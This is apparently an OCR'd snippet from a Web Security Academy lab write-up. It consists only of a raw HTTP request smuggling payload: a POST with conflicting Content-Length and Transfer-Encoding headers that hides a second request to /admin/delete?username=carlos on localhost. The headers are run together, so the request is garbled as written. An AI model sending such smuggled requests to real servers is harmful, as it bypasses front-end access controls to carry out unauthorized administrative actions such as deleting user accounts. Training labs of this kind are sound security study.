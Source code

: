     ```
    POST / HTTP/1.1Host: 0a6d00b00476a23a85410eb100e000c7.web-security-academy.netContent-Type: application/x-www-form-urlencodedContent-length: 4Transfer-Encoding: chunked87GET /admin/delete?username=carlos HTTP/1.1Host: localhostContent-Type: application/x-www-form-urlencodedContent-Length: 15x=10
    ```